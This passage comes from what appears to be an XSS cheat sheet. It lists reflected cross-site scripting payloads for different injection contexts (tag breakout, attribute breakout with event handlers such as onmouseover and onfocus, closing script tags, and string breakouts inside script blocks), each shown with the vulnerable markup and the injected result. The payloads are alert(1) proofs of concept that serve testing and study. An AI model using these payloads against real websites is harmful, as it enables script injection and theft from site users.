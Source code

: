 ```html
</tag><script>alert(1)</script>
"></tag><script>alert(1)</script>
```

* Example source code
```html
<a href="https://target.com/1?status=REFLECTED_HERE">1</a>
```

* After input the payload
```html
<a href="https://target.com/1?status="></a><script>alert(1)</script>">1</a>
```

5. Use when input inside an attribute’s value of an HTML tag but > is filtered
```html
" onmouseover=alert(1)
" autofocus onfocus=alert(1)
```

* Example source code
```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

* After input the payload
```html
<input id="keyword" type="text" name="q" value="" onmouseover=alert(1)">
```

6. Use </script> when input inside ```<script>``` tags
```html
</script><script>alert(1)</script>
```

* Example source code
```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

* After input the payload
```html
<script>
    var sitekey = '</script><script>alert(1)</script>';
</script>
```

## **XSS Cheat Sheet (Advanced)**
7. Use when input lands in a script block, inside a string delimited value.
```html
'-alert(1)-'
'/alert(1)//
```

* Example source code
```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```
